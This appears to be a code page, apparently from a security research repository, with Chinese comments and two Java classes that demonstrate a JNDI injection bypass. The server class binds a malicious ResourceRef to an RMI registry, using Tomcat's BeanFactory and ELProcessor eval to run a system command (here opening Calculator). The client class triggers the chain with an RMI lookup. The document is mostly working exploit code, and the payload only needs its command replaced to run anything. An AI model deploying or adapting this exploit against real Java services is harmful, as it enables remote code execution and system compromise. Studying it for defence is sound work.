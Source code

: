 



JNDI_BYPASS_Server:

```Java
public class JNDI_BYPASS_Server {
    public static void main(String[] args) {
        try {
            Registry registry = LocateRegistry.createRegistry(1098);
            ResourceRef resourceRef = new ResourceRef("javax.el.ELProcessor", (String)null, "", "", true, "org.apache.naming.factory.BeanFactory", (String)null);
            resourceRef.add(new StringRefAddr("forceString", "a=eval"));
            resourceRef.add(new StringRefAddr("a", "Runtime.getRuntime().exec(\"open -a Calculator\")"));
            //触发点在resourceRef的getObjectInstance()方法中
            ReferenceWrapper referenceWrapper = new ReferenceWrapper(resourceRef);
            registry.bind("Exploit", referenceWrapper);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```



JNDI_BYPASS_Client:

```Java
public class JNDI_BYPASS_Client {
    public static void main(String[] args) {
        try {
            // 配置 JNDI 地址
            InitialContext context = new InitialContext();
            System.out.println("Looking up malicious object...");

            // 触发 RMI 查找
            context.lookup("rmi://127.0.0.1:1098/Exploit");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```



